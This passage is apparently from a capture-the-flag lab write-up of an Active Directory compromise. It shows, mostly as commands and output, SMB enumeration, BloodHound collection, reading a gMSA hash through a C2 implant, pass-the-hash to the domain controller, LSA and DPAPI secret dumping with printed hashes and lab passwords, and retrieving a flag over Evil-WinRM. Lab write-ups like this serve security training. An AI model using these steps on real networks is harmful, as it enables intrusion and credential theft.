T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

&nbsp;

# SMB

I see no strange shares:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# NetExec smb 10.9.40.5 -u "Administrator" -p '9ze9wL0C!3' -d "cyber.local" --shares
SMB         10.9.40.5       445    INDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:INDC) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.5       445    INDC             [+] cyber.local\Administrator:9ze9wL0C!3 
SMB         10.9.40.5       445    INDC             [*] Enumerated shares
SMB         10.9.40.5       445    INDC             Share           Permissions     Remark
SMB         10.9.40.5       445    INDC             -----           -----------     ------
SMB         10.9.40.5       445    INDC             ADMIN$                          Remote Admin
SMB         10.9.40.5       445    INDC             C$                              Default share
SMB         10.9.40.5       445    INDC             IPC$            READ            Remote IPC
SMB         10.9.40.5       445    INDC             NETLOGON        READ            Logon server share 
SMB         10.9.40.5       445    INDC             SYSVOL          READ            Logon server share
```

&nbsp;

# AD

With robert.lanza credentials found from the Unattended.xml I will get another screenshot of the AD, this time for the inception.local domain.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# bloodhound-python -d "INCEPTION.LOCAL" -u "Robert.Lanza" -p 'U=zk1J.TYruU*' -ns 10.9.40.5 -c All --zip 
INFO: Found AD domain: inception.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (indc.inception.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: indc.inception.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: indc.inception.local
INFO: Found 510 users
INFO: Found 87 groups
INFO: Found 18 gpos
INFO: Found 42 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: inwkt001.inception.local
INFO: Querying computer: inwkt002.inception.local
INFO: Querying computer: inwebjw.inception.local
INFO: Querying computer: indc.inception.local
INFO: Done in 00M 19S
INFO: Compressing output into 20240626160208_bloodhound.zip
```

Ah this Robert is part of Helpdesk/IT Admins group:



And I remember that he was also part of core.cyber.local domain, this might give me an indication to go back somehow?

But I see another RBDC?



&nbsp;

# The next morning

Now I am on the machine inwebjw.inception.local with no cleartext credentials or whatsoever but I am NTSYSTEM and marking this server as owned shows me a clear possible path that can be used to get to the domain admins?



Now I was looking around and apparently I can read the NTLM password directly from the machine **inwebjw.inception.local**?

&nbsp;

# Road to DA

Now I am on the last machine aka(inwebjw) from here I should be able to perform this?



From my weak knowledge GSMA are a secure implementation of SPN where you don't have a pre-defined cleartext password but it is instead assigned by AD automatically and all the services that requires that password can request a password hash ad hoc.



I just uploaded the executable, now I should be able to read the GSMA password hash of the user.

```
28/06/2024 14:38:12 [yovecio] Demon » powershell "C:\Temp\gmsapasswordreader.exe --accountname SVC_GITLAB_RN$"
[*] [39A2B185] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [282 bytes]
[+] Received Output [970 bytes]:
Calculating hashes for Old Value
[*] Input username             : svc_gitlab_rn$
[*] Input domain               : INCEPTION.LOCAL
[*] Salt                       : INCEPTION.LOCALsvc_gitlab_rn$
[*]       rc4_hmac             : 34E09875DF9AE53B20E760350D5C6220
[*]       aes128_cts_hmac_sha1 : 175A69D9E12F86C2AAE625B4FC08DE98
[*]       aes256_cts_hmac_sha1 : 964928C2239A60925CB6BEA17FE9BAEFBA00E5DF3409FD044A4F9ED0568138D5
[*]       des_cbc_md5          : 1C379B25046EDA94

Calculating hashes for Current Value
[*] Input username             : svc_gitlab_rn$
[*] Input domain               : INCEPTION.LOCAL
[*] Salt                       : INCEPTION.LOCALsvc_gitlab_rn$
[*]       rc4_hmac             : A40DEF757A23639CA85B3C198B411D12
[*]       aes128_cts_hmac_sha1 : 7F720EAB1EBC9130EA50910755EF4C25
[*]       aes256_cts_hmac_sha1 : 4ECEF4B97DB26F34C281C4ED295FE6736F41DC7D2B11C210E39597099D32C466
[*]       des_cbc_md5          : 436152B09252E9FB
```

As expected we have 2 one of them is new the other is old. One of them must be working, anyway long story short now we should be able to perform a pass the hash and login to the DC?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# NetExec smb 10.9.40.5 -u 'SVC_GITLAB_RN$' -H 34E09875DF9AE53B20E760350D5C6220 -d "inception.local" 
SMB         10.9.40.5       445    INDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:INDC) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.5       445    INDC             [-] inception.local\SVC_GITLAB_RN$:34E09875DF9AE53B20E760350D5C6220 STATUS_LOGON_FAILURE 
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# NetExec smb 10.9.40.5 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" 
SMB         10.9.40.5       445    INDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:INDC) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.5       445    INDC             [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
```

Indeed the second one worked, now I will perform a ntdsutl do dump the ntds.dit.



I will also try to dump LSASS secrets but nothing came out:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# NetExec smb 10.9.40.5 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" --lsa
SMB         10.9.40.5       445    INDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:INDC) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.5       445    INDC             [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
SMB         10.9.40.5       445    INDC             [+] Dumping LSA secrets
SMB         10.9.40.5       445    INDC             CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2021-10-25 11:37:54)
SMB         10.9.40.5       445    INDC             core.cyber.local/Administrator:$DCC2$10240#Administrator#108cb25293e11c072acebcd810e23002: (2021-10-25 11:39:25)
SMB         10.9.40.5       445    INDC             inception\INDC$:aes256-cts-hmac-sha1-96:ca480708f56d3bf71cdb7c95408d69a6277911f43a9b8b137853e5513fb5aa64
SMB         10.9.40.5       445    INDC             inception\INDC$:aes128-cts-hmac-sha1-96:ca544a916a2673b7b0dd96a60480c7b0
SMB         10.9.40.5       445    INDC             inception\INDC$:des-cbc-md5:9415dabf0b79a2a2
SMB         10.9.40.5       445    INDC             inception\INDC$:plain_password_hex:2edf8e2d9676347835c06eeb2dcba7945ac66282123f54591bac6947fdd474e4b4283c4eb41e76ffd50c45516f528ed1fe9f2d819c141cfd62985e626edb31039702c6e4cb50f47f0e049cab9e2452402a62fe379863120ad1c29ebcdbc01302adf266798d6473b1efb22b18288da4fe837781aff38001d296f81fd044a853fcab0ac8cfe06110dc62aacc033533ee45908b6474a415288478acbba05679b06201839726d947d009920224c457e6560ddee7acf06ba5259e92be993895fe0e452ce0d2ee3e3bbb4e3ce5ff76b14fb9ead7c13099f143328c7b91139f0a6468a774b013c07c859eec8877a545fa49bacc
SMB         10.9.40.5       445    INDC             inception\INDC$:aad3b435b51404eeaad3b435b51404ee:2dfddb80824ee1992e5e331c612d6558:::
SMB         10.9.40.5       445    INDC             dpapi_machinekey:0xaf790a326f27e9e9a6ebcf83b9271e8cf2966872
dpapi_userkey:0xc99c149aa4ae0cd779cfbb8d65da6ec327e244bc
SMB         10.9.40.5       445    INDC             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.40.5       445    INDC             [+] Dumped 9 LSA secrets to /root/.nxc/logs/INDC_10.9.40.5_2024-06-28_144740.secrets and /root/.nxc/logs/INDC_10.9.40.5_2024-06-28_144740.cached
```

But dumping the dpapi showed the cleartext credentials of svc_inventory?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# NetExec smb 10.9.40.5 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" --dpapi
SMB         10.9.40.5       445    INDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:INDC) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.5       445    INDC             [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
SMB         10.9.40.5       445    INDC             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.9.40.5       445    INDC             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.9.40.5       445    INDC             [+] Got 22 decrypted masterkeys. Looting secrets...
SMB         10.9.40.5       445    INDC             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{7E1FA247-F8E1-4E7D-950B-2B1386168F7B} - inception\svc_inventory:ew67KNfh?_9}5+jFSZM6N3
```

Now I can login and grab another flag:

```
*Evil-WinRM* PS C:\Users\Administrator> ls desktop


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/24/2020  10:27 PM             66 flag.txt


*Evil-WinRM* PS C:\Users\Administrator> cat desktop/flag.txt
Cyb3rN3t1C5{N3v3r$t0pDr3@m!ng}
*Evil-WinRM* PS C:\Users\Administrator>
```

The fun is over we can close and go home! :D

&nbsp;